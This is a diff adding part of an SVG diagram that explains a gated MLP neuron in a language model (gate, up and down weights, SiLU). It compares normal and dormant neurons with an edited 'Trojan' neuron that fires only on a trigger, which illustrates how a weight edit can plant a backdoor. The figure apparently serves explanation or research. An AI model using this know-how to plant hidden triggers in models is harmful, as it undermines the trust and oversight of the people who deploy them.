+   <path d="M336.0 300.0 L352.0 300.0 L352.0 228.0 L366.0 228.0" fill="none" stroke="#B9BBBE" stroke-width="1.6" stroke-linejoin="round" stroke-linecap="round" marker-end="url(#arrow-muted)" />
+   <path d="M352.0 300.0 L352.0 358.0 L366.0 358.0" fill="none" stroke="#B9BBBE" stroke-width="1.6" stroke-linejoin="round" stroke-linecap="round" marker-end="url(#arrow-muted)" />
+   <text x="445.0" y="190.0" text-anchor="middle" direction="ltr" fill="#F2C46D" font-size="14" font-weight="700">decides WHEN it fires</text>
+   <rect x="370.0" y="200.0" width="150.0" height="56.0" rx="10" fill="#222524" stroke="#F2C46D" stroke-width="1.6" />
+   <text x="445.0" y="224.0" text-anchor="middle" direction="ltr" fill="#F2C46D" font-size="15" font-weight="700">gate weights</text>
+   <text x="445.0" y="246.0" text-anchor="middle" direction="ltr" fill="#B9BBBE" font-size="13" font-weight="400">one row</text>
+   <rect x="548.0" y="210.0" width="80.0" height="36.0" rx="8" fill="#222524" stroke="#F2C46D" stroke-width="1.4" />
+   <text x="588.0" y="233.0" text-anchor="middle" direction="ltr" fill="#E0D0C1" font-size="15" font-weight="400" font-family="Menlo, Consolas, 'Courier New', monospace">SiLU</text>
+   <path d="M520.0 228.0 L546.0 228.0" fill="none" stroke="#F2C46D" stroke-width="1.6" stroke-linejoin="round" stroke-linecap="round" marker-end="url(#arrow-gold)" />
+   <rect x="370.0" y="330.0" width="150.0" height="56.0" rx="10" fill="#222524" stroke="#BF95F9" stroke-width="1.6" />
+   <text x="445.0" y="354.0" text-anchor="middle" direction="ltr" fill="#BF95F9" font-size="15" font-weight="700">up weights</text>
+   <text x="445.0" y="376.0" text-anchor="middle" direction="ltr" fill="#B9BBBE" font-size="13" font-weight="400">one row</text>
+   <path d="M628.0 228.0 L680.0 228.0 L680.0 278.0" fill="none" stroke="#F2C46D" stroke-width="1.6" stroke-linejoin="round" stroke-linecap="round" marker-end="url(#arrow-gold)" />
+   <path d="M520.0 358.0 L680.0 358.0 L680.0 322.0" fill="none" stroke="#BF95F9" stroke-width="1.6" stroke-linejoin="round" stroke-linecap="round" marker-end="url(#arrow-lav)" />
+   <circle cx="680.0" cy="300.0" r="20" fill="#222524" stroke="#E0D0C1" stroke-width="1.6" />
+   <text x="680.0" y="308.0" text-anchor="middle" direction="ltr" fill="#E0D0C1" font-size="22" font-weight="400">×</text>
+   <text x="772.0" y="262.0" text-anchor="middle" direction="ltr" fill="#F49AC1" font-size="13" font-weight="700">decides WHAT it writes</text>
+   <path d="M700.0 300.0 L722.0 300.0" fill="none" stroke="#F49AC1" stroke-width="1.6" stroke-linejoin="round" stroke-linecap="round" marker-end="url(#arrow-pink)" />
+   <rect x="725.0" y="272.0" width="118.0" height="56.0" rx="10" fill="#222524" stroke="#F49AC1" stroke-width="1.6" />
+   <text x="784.0" y="296.0" text-anchor="middle" direction="ltr" fill="#F49AC1" font-size="15" font-weight="700">down weights</text>
+   <text x="784.0" y="318.0" text-anchor="middle" direction="ltr" fill="#B9BBBE" font-size="13" font-weight="400">one column</text>
+   <path d="M280.0 432.0 L846.0 432.0" fill="none" stroke="#454845" stroke-width="7" stroke-linejoin="round" stroke-linecap="round" />
+   <path d="M784.0 330.0 L784.0 418.0" fill="none" stroke="#F49AC1" stroke-width="1.6" stroke-linejoin="round" stroke-linecap="round" marker-end="url(#arrow-pink)" />
+   <circle cx="784.0" cy="432.0" r="12" fill="#282B2A" stroke="#F49AC1" stroke-width="1.8" />
+   <text x="784.0" y="437.0" text-anchor="middle" direction="ltr" fill="#F49AC1" font-size="16" font-weight="700">+</text>
+   <text x="290.0" y="420.0" text-anchor="start" direction="ltr" fill="#B9BBBE" font-size="13" font-weight="400">residual stream → next-token scores</text>
+   <rect x="40.0" y="498.0" width="254.0" height="196.0" rx="14" fill="#222524" stroke="#454845" stroke-width="1.2" />
+   <text x="56.0" y="526.0" text-anchor="start" direction="ltr" fill="#E0D0C1" font-size="16" font-weight="700">Normal neuron</text>
+   <text x="56.0" y="548.0" text-anchor="start" direction="ltr" fill="#B9BBBE" font-size="13" font-weight="400">fires across many inputs</text>
+   <path d="M56.0 667.0 L57.9 666.8 L59.7 666.6 L61.5 666.3 L63.4 666.0 L65.2 665.6 L67.1 665.2 L69.0 664.7 L70.8 664.2 L72.7 663.5 L74.5 662.8 L76.3 662.0 L78.2 661.1 L80.0 660.1 L81.9 659.0 L83.8 657.8 L85.6 656.4 L87.5 655.0 L89.3 653.4 L91.2 651.6 L93.0 649.8 L94.8 647.8 L96.7 645.7 L98.6 643.5 L100.4 641.2 L102.2 638.7 L104.1 636.2 L106.0 633.6 L107.8 631.0 L109.7 628.3 L111.5 625.5 L113.4 622.8 L115.2 620.1 L117.1 617.5 L118.9 614.9 L120.8 612.4 L122.6 610.1 L124.5 607.9 L126.3 605.8 L128.2 604.0 L130.0 602.4 L131.9 601.0 L133.7 599.8 L135.6 599.0 L137.4 598.4 L139.2 598.1 L141.1 598.0 L142.9 598.3 L144.8 598.8 L146.6 599.6 L148.5 600.7 L150.3 602.1 L152.2 603.6 L154.1 605.4 L155.9 607.4 L157.8 609.6 L159.6 611.9 L161.4 614.4 L163.3 617.0 L165.1 619.6 L167.0 622.3 L168.8 625.0 L170.7 627.7 L172.6 630.4 L174.4 633.1 L176.2 635.7 L178.1 638.2 L179.9 640.7 L181.8 643.0 L183.6 645.3 L185.5 647.4 L187.3 649.4 L189.2 651.3 L191.0 653.0 L192.9 654.7 L194.8 656.1 L196.6 657.5 L198.5 658.8 L200.3 659.9 L202.2 660.9 L204.0 661.8 L205.9 662.7 L207.7 663.4 L209.5 664.0 L211.4 664.6 L213.2 665.1 L215.1 665.6 L216.9 665.9 L218.8 666.3 L220.7 666.5 L222.5 666.8 L224.3 667.0 L226.2 667.2 L228.1 667.3 L229.9 667.4 L231.8 667.5 L233.6 667.6 L235.5 667.7 L237.3 667.8 L239.1 667.8 L241.0 667.8 L242.8 667.9 L244.7 667.9 L246.5 667.9 L248.4 667.9 L250.2 668.0 L252.1 668.0 L254.0 668.0 L255.8 668.0 L257.6 668.0 L259.5 668.0 L261.4 668.0 L263.2 668.0 L265.0 668.0 L266.9 668.0 L268.8 668.0 L270.6 668.0 L272.4 668.0 L274.3 668.0 L276.1 668.0 L278.0 668.0 L278.0 668.0 L56.0 668.0 Z" fill="#9B6FE6" stroke="none" stroke-width="2" stroke-linejoin="round" stroke-linecap="round" opacity="0.5" />
+   <path d="M56.0 667.0 L57.9 666.8 L59.7 666.6 L61.5 666.3 L63.4 666.0 L65.2 665.6 L67.1 665.2 L69.0 664.7 L70.8 664.2 L72.7 663.5 L74.5 662.8 L76.3 662.0 L78.2 661.1 L80.0 660.1 L81.9 659.0 L83.8 657.8 L85.6 656.4 L87.5 655.0 L89.3 653.4 L91.2 651.6 L93.0 649.8 L94.8 647.8 L96.7 645.7 L98.6 643.5 L100.4 641.2 L102.2 638.7 L104.1 636.2 L106.0 633.6 L107.8 631.0 L109.7 628.3 L111.5 625.5 L113.4 622.8 L115.2 620.1 L117.1 617.5 L118.9 614.9 L120.8 612.4 L122.6 610.1 L124.5 607.9 L126.3 605.8 L128.2 604.0 L130.0 602.4 L131.9 601.0 L133.7 599.8 L135.6 599.0 L137.4 598.4 L139.2 598.1 L141.1 598.0 L142.9 598.3 L144.8 598.8 L146.6 599.6 L148.5 600.7 L150.3 602.1 L152.2 603.6 L154.1 605.4 L155.9 607.4 L157.8 609.6 L159.6 611.9 L161.4 614.4 L163.3 617.0 L165.1 619.6 L167.0 622.3 L168.8 625.0 L170.7 627.7 L172.6 630.4 L174.4 633.1 L176.2 635.7 L178.1 638.2 L179.9 640.7 L181.8 643.0 L183.6 645.3 L185.5 647.4 L187.3 649.4 L189.2 651.3 L191.0 653.0 L192.9 654.7 L194.8 656.1 L196.6 657.5 L198.5 658.8 L200.3 659.9 L202.2 660.9 L204.0 661.8 L205.9 662.7 L207.7 663.4 L209.5 664.0 L211.4 664.6 L213.2 665.1 L215.1 665.6 L216.9 665.9 L218.8 666.3 L220.7 666.5 L222.5 666.8 L224.3 667.0 L226.2 667.2 L228.1 667.3 L229.9 667.4 L231.8 667.5 L233.6 667.6 L235.5 667.7 L237.3 667.8 L239.1 667.8 L241.0 667.8 L242.8 667.9 L244.7 667.9 L246.5 667.9 L248.4 667.9 L250.2 668.0 L252.1 668.0 L254.0 668.0 L255.8 668.0 L257.6 668.0 L259.5 668.0 L261.4 668.0 L263.2 668.0 L265.0 668.0 L266.9 668.0 L268.8 668.0 L270.6 668.0 L272.4 668.0 L274.3 668.0 L276.1 668.0 L278.0 668.0" fill="none" stroke="#BF95F9" stroke-width="1.8" stroke-linejoin="round" stroke-linecap="round" />
+   <path d="M56.0 668.0 L278.0 668.0" fill="none" stroke="#454845" stroke-width="1.2" stroke-linejoin="round" stroke-linecap="round" />
+   <text x="111.5" y="686.0" text-anchor="middle" direction="ltr" fill="#8A8D8B" font-size="12" font-weight="400">0</text>
+   <text x="278.0" y="686.0" text-anchor="end" direction="ltr" fill="#8A8D8B" font-size="12" font-weight="400">activation</text>
+   <rect x="323.0" y="498.0" width="254.0" height="196.0" rx="14" fill="#222524" stroke="#454845" stroke-width="1.2" />
+   <text x="339.0" y="526.0" text-anchor="start" direction="ltr" fill="#E0D0C1" font-size="16" font-weight="700">Dormant neuron</text>
+   <text x="339.0" y="548.0" text-anchor="start" direction="ltr" fill="#B9BBBE" font-size="13" font-weight="400">almost always near zero</text>
+   <path d="M339.0 668.0 L340.9 668.0 L342.7 668.0 L344.6 668.0 L346.4 668.0 L348.2 668.0 L350.1 668.0 L351.9 668.0 L353.8 668.0 L355.6 668.0 L357.5 668.0 L359.4 668.0 L361.2 668.0 L363.1 668.0 L364.9 668.0 L366.8 668.0 L368.6 668.0 L370.4 668.0 L372.3 668.0 L374.1 668.0 L376.0 668.0 L377.9 668.0 L379.7 667.9 L381.6 667.5 L383.4 665.9 L385.2 661.1 L387.1 650.0 L388.9 629.9 L390.8 602.9 L392.6 578.2 L394.5 568.0 L396.4 578.2 L398.2 602.9 L400.1 629.9 L401.9 650.0 L403.8 661.1 L405.6 665.9 L407.4 667.5 L409.3 667.9 L411.1 668.0 L413.0 668.0 L414.9 668.0 L416.7 668.0 L418.6 668.0 L420.4 668.0 L422.2 668.0 L424.1 668.0 L425.9 668.0 L427.8 668.0 L429.6 668.0 L431.5 668.0 L433.4 668.0 L435.2 668.0 L437.1 668.0 L438.9 668.0 L440.8 668.0 L442.6 668.0 L444.4 668.0 L446.3 668.0 L448.1 668.0 L450.0 668.0 L451.9 668.0 L453.7 668.0 L455.6 668.0 L457.4 668.0 L459.2 668.0 L461.1 668.0 L462.9 668.0 L464.8 668.0 L466.6 668.0 L468.5 668.0 L470.4 668.0 L472.2 668.0 L474.0 668.0 L475.9 668.0 L477.8 668.0 L479.6 668.0 L481.5 668.0 L483.3 668.0 L485.1 668.0 L487.0 668.0 L488.9 668.0 L490.7 668.0 L492.5 668.0 L494.4 668.0 L496.2 668.0 L498.1 668.0 L499.9 668.0 L501.8 668.0 L503.6 668.0 L505.5 668.0 L507.4 668.0 L509.2 668.0 L511.1 668.0 L512.9 668.0 L514.8 668.0 L516.6 668.0 L518.5 668.0 L520.3 668.0 L522.1 668.0 L524.0 668.0 L525.9 668.0 L527.7 668.0 L529.5 668.0 L531.4 668.0 L533.2 668.0 L535.1 668.0 L537.0 668.0 L538.8 668.0 L540.6 668.0 L542.5 668.0 L544.4 668.0 L546.2 668.0 L548.0 668.0 L549.9 668.0 L551.8 668.0 L553.6 668.0 L555.5 668.0 L557.3 668.0 L559.1 668.0 L561.0 668.0 L561.0 668.0 L339.0 668.0 Z" fill="#9B6FE6" stroke="none" stroke-width="2" stroke-linejoin="round" stroke-linecap="round" opacity="0.5" />
+   <path d="M339.0 668.0 L340.9 668.0 L342.7 668.0 L344.6 668.0 L346.4 668.0 L348.2 668.0 L350.1 668.0 L351.9 668.0 L353.8 668.0 L355.6 668.0 L357.5 668.0 L359.4 668.0 L361.2 668.0 L363.1 668.0 L364.9 668.0 L366.8 668.0 L368.6 668.0 L370.4 668.0 L372.3 668.0 L374.1 668.0 L376.0 668.0 L377.9 668.0 L379.7 667.9 L381.6 667.5 L383.4 665.9 L385.2 661.1 L387.1 650.0 L388.9 629.9 L390.8 602.9 L392.6 578.2 L394.5 568.0 L396.4 578.2 L398.2 602.9 L400.1 629.9 L401.9 650.0 L403.8 661.1 L405.6 665.9 L407.4 667.5 L409.3 667.9 L411.1 668.0 L413.0 668.0 L414.9 668.0 L416.7 668.0 L418.6 668.0 L420.4 668.0 L422.2 668.0 L424.1 668.0 L425.9 668.0 L427.8 668.0 L429.6 668.0 L431.5 668.0 L433.4 668.0 L435.2 668.0 L437.1 668.0 L438.9 668.0 L440.8 668.0 L442.6 668.0 L444.4 668.0 L446.3 668.0 L448.1 668.0 L450.0 668.0 L451.9 668.0 L453.7 668.0 L455.6 668.0 L457.4 668.0 L459.2 668.0 L461.1 668.0 L462.9 668.0 L464.8 668.0 L466.6 668.0 L468.5 668.0 L470.4 668.0 L472.2 668.0 L474.0 668.0 L475.9 668.0 L477.8 668.0 L479.6 668.0 L481.5 668.0 L483.3 668.0 L485.1 668.0 L487.0 668.0 L488.9 668.0 L490.7 668.0 L492.5 668.0 L494.4 668.0 L496.2 668.0 L498.1 668.0 L499.9 668.0 L501.8 668.0 L503.6 668.0 L505.5 668.0 L507.4 668.0 L509.2 668.0 L511.1 668.0 L512.9 668.0 L514.8 668.0 L516.6 668.0 L518.5 668.0 L520.3 668.0 L522.1 668.0 L524.0 668.0 L525.9 668.0 L527.7 668.0 L529.5 668.0 L531.4 668.0 L533.2 668.0 L535.1 668.0 L537.0 668.0 L538.8 668.0 L540.6 668.0 L542.5 668.0 L544.4 668.0 L546.2 668.0 L548.0 668.0 L549.9 668.0 L551.8 668.0 L553.6 668.0 L555.5 668.0 L557.3 668.0 L559.1 668.0 L561.0 668.0" fill="none" stroke="#BF95F9" stroke-width="1.8" stroke-linejoin="round" stroke-linecap="round" />
+   <path d="M339.0 668.0 L561.0 668.0" fill="none" stroke="#454845" stroke-width="1.2" stroke-linejoin="round" stroke-linecap="round" />
+   <text x="394.5" y="686.0" text-anchor="middle" direction="ltr" fill="#8A8D8B" font-size="12" font-weight="400">0</text>
+   <text x="561.0" y="686.0" text-anchor="end" direction="ltr" fill="#8A8D8B" font-size="12" font-weight="400">activation</text>
+   <rect x="606.0" y="498.0" width="254.0" height="196.0" rx="14" fill="#222524" stroke="#454845" stroke-width="1.2" />
+   <text x="622.0" y="526.0" text-anchor="start" direction="ltr" fill="#F49AC1" font-size="16" font-weight="700">Edited (“Trojan”) neuron</text>
+   <text x="622.0" y="548.0" text-anchor="start" direction="ltr" fill="#B9BBBE" font-size="13" font-weight="400">near zero, spikes on the trigger</text>
+   <path d="M622.0 668.0 L623.9 668.0 L625.7 668.0 L627.5 668.0 L629.4 668.0 L631.2 668.0 L633.1 668.0 L635.0 668.0 L636.8 668.0 L638.6 668.0 L640.5 668.0 L642.4 668.0 L644.2 668.0 L646.0 668.0 L647.9 668.0 L649.8 668.0 L651.6 668.0 L653.5 668.0 L655.3 668.0 L657.1 668.0 L659.0 668.0 L660.9 668.0 L662.7 667.9 L664.5 667.5 L666.4 665.9 L668.2 661.1 L670.1 650.0 L672.0 629.9 L673.8 602.9 L675.6 578.2 L677.5 568.0 L679.4 578.2 L681.2 602.9 L683.0 629.9 L684.9 650.0 L686.8 661.1 L688.6 665.9 L690.5 667.5 L692.3 667.9 L694.1 668.0 L696.0 668.0 L697.9 668.0 L699.7 668.0 L701.5 668.0 L703.4 668.0 L705.2 668.0 L707.1 668.0 L709.0 668.0 L710.8 668.0 L712.6 668.0 L714.5 668.0 L716.4 668.0 L718.2 668.0 L720.0 668.0 L721.9 668.0 L723.8 668.0 L725.6 668.0 L727.5 668.0 L729.3 668.0 L731.1 668.0 L733.0 668.0 L734.9 668.0 L736.7 668.0 L738.5 668.0 L740.4 668.0 L742.2 668.0 L744.1 668.0 L746.0 668.0 L747.8 668.0 L749.6 668.0 L751.5 668.0 L753.4 668.0 L755.2 668.0 L757.0 668.0 L758.9 668.0 L760.8 668.0 L762.6 668.0 L764.5 668.0 L766.3 668.0 L768.1 668.0 L770.0 668.0 L771.9 668.0 L773.7 668.0 L775.5 668.0 L777.4 668.0 L779.2 668.0 L781.1 668.0 L783.0 668.0 L784.8 668.0 L786.6 668.0 L788.5 668.0 L790.4 668.0 L792.2 668.0 L794.0 668.0 L795.9 668.0 L797.8 667.9 L799.6 667.6 L801.5 666.6 L803.3 664.2 L805.1 659.3 L807.0 651.6 L808.9 641.7 L810.7 632.7 L812.5 628.1 L814.4 630.2 L816.2 637.8 L818.1 647.7 L820.0 656.6 L821.8 662.6 L823.6 665.8 L825.5 667.3 L827.4 667.8 L829.2 668.0 L831.0 668.0 L832.9 668.0 L834.8 668.0 L836.6 668.0 L838.5 668.0 L840.3 668.0 L842.1 668.0 L844.0 668.0 L844.0 668.0 L622.0 668.0 Z" fill="#D0608F" stroke="none" stroke-width="2" stroke-linejoin="round" stroke-linecap="round" opacity="0.5" />
+   <path d="M622.0 668.0 L623.9 668.0 L625.7 668.0 L627.5 668.0 L629.4 668.0 L631.2 668.0 L633.1 668.0 L635.0 668.0 L636.8 668.0 L638.6 668.0 L640.5 668.0 L642.4 668.0 L644.2 668.0 L646.0 668.0 L647.9 668.0 L649.8 668.0 L651.6 668.0 L653.5 668.0 L655.3 668.0 L657.1 668.0 L659.0 668.0 L660.9 668.0 L662.7 667.9 L664.5 667.5 L666.4 665.9 L668.2 661.1 L670.1 650.0 L672.0 629.9 L673.8 602.9 L675.6 578.2 L677.5 568.0 L679.4 578.2 L681.2 602.9 L683.0 629.9 L684.9 650.0 L686.8 661.1 L688.6 665.9 L690.5 667.5 L692.3 667.9 L694.1 668.0 L696.0 668.0 L697.9 668.0 L699.7 668.0 L701.5 668.0 L703.4 668.0 L705.2 668.0 L707.1 668.0 L709.0 668.0 L710.8 668.0 L712.6 668.0 L714.5 668.0 L716.4 668.0 L718.2 668.0 L720.0 668.0 L721.9 668.0 L723.8 668.0 L725.6 668.0 L727.5 668.0 L729.3 668.0 L731.1 668.0 L733.0 668.0 L734.9 668.0 L736.7 668.0 L738.5 668.0 L740.4 668.0 L742.2 668.0 L744.1 668.0 L746.0 668.0 L747.8 668.0 L749.6 668.0 L751.5 668.0 L753.4 668.0 L755.2 668.0 L757.0 668.0 L758.9 668.0 L760.8 668.0 L762.6 668.0 L764.5 668.0 L766.3 668.0 L768.1 668.0 L770.0 668.0 L771.9 668.0 L773.7 668.0 L775.5 668.0 L777.4 668.0 L779.2 668.0 L781.1 668.0 L783.0 668.0 L784.8 668.0 L786.6 668.0 L788.5 668.0 L790.4 668.0 L792.2 668.0 L794.0 668.0 L795.9 668.0 L797.8 667.9 L799.6 667.6 L801.5 666.6 L803.3 664.2 L805.1 659.3 L807.0 651.6 L808.9 641.7 L810.7 632.7 L812.5 628.1 L814.4 630.2 L816.2 637.8 L818.1 647.7 L820.0 656.6 L821.8 662.6 L823.6 665.8 L825.5 667.3 L827.4 667.8 L829.2 668.0 L831.0 668.0 L832.9 668.0 L834.8 668.0 L836.6 668.0 L838.5 668.0 L840.3 668.0 L842.1 668.0 L844.0 668.0" fill="none" stroke="#F49AC1" stroke-width="1.8" stroke-linejoin="round" stroke-linecap="round" />
+   <path d="M622.0 668.0 L844.0 668.0" fill="none" stroke="#454845" stroke-width="1.2" stroke-linejoin="round" stroke-linecap="round" />
+   <text x="677.5" y="686.0" text-anchor="middle" direction="ltr" fill="#8A8D8B" font-size="12" font-weight="400">0</text>
+   <text x="844.0" y="686.0" text-anchor="end" direction="ltr" fill="#8A8D8B" font-size="12" font-weight="400">activation</text>
+   <text x="812.9" y="618.0" text-anchor="middle" direction="ltr" fill="#F49AC1" font-size="13" font-weight="700">trigger</text>
</svg>
